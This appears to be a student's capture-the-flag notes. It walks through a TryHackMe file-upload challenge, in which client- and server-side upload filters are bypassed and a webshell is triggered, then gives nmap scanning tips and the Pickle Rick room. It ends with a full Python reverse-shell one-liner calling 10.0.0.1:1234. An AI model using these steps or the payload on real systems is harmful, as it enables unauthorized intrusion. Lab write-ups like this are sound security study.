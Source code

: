 gobuster dir -u http://jewel.uploadvulns.thm/content -w wrd -x jpg
This command searched for .jpg files in the content directory using the wordlist giving to us by THM. the -x switch helped us filter out the folder by file extentsion.

After that we had to delete the client side filter which we did using burp suite 
To find the filter we had to disable our filter on .js files within burpsuite and then also use ctrl f5 to clear our cache when reloading the site. This let our burp suite intercept the upload.js file while we then intercepted the response and deleted the cilent side filters. 


![Screenshot 2024-10-07 174508](https://github.com/user-attachments/assets/e72697b1-16e4-4018-a93d-26ebb6915e9d)


After we deleted the client side filters we still had the server side filter which was MIME filter. It only let files with the .jpg extenstion in the server so after you change the extension using mv "file name" you would just upload the file as a .jpeg file. 

The last step was to upload it and find it using our gobuster command and then use the admin page to activate our file. since the directory was modules we had to go back to access the content directory so the command ../content/AOJ.jpg activated our file and our listener which allowed to gain webshell access. we then had to go back a directory and gain our flag.

Nmap notes

To get the standard ports and run all the scripts and checks on them: nmap -n -v -sT -A <IP>

To do a full TCP scan: nmap -n -v -sT -p- -T5 <IP>

Then I'll usually run the first one again with -p <any additional ports found>

Then I'll run a "--script vuln" on all the found ports to do an NSE vulnerability scan.

Then if I want to do a UDP scan: nmap -n -v -sU <IP> nmap -n -v -sU -p- -T5 <IP>

Pickle rick CTF

So when we started we did a normal nmap scan to find that port 80 was open and port 22 (ssh) was open

$ gobuster dir -u http://10.10.242.4/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py

Running this command helped us find the /robots.txt/ directory /assets/ /login.php/ portal.php/

In robots.txt we find a single string Wabbalubbadubdub 

We used this as our password for the portal.php login

The user was found by viewing the page source of the main page.

After we logged in we found a tab called commands where we could run linux commands like ls and other commands.

Here is where we found our first flag which we opened by using grep . "File" which was mr. meeseeks hair

after finding our first flag we went for a python3 reverse shell using this payload python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

